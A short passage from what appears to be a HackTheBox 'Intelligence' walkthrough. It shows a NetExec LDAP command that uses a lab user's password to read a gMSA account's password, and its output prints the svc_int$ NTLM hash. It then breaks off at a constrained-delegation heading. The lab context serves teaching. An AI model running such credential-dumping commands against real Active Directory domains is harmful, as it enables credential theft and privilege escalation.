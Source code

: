 ### ReadGMSA

Nice lets see what Mr.Teddy can do???

![alt text](../assets/images/intelligence12.png)

okey lets do this

```bash
➜  Intelligence nxc ldap DC.intelligence.htb -u Ted.Graves -p 'Mr.Teddy'  --gmsa                            
LDAP        10.10.10.248    389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:intelligence.htb)
LDAPS       10.10.10.248    636    DC               [+] intelligence.htb\Ted.Graves:Mr.Teddy 
LDAPS       10.10.10.248    636    DC               [*] Getting GMSA Passwords
LDAPS       10.10.10.248    636    DC               Account: svc_int$             NTLM: 9db7142ffb1a5550533f64941ac4a37b     PrincipalsAllowedToReadPassword: ['DC$', 'itsupport']
```

nice lets see what svc_init can do

### Constrained Delegation (AllowedToDelegate)
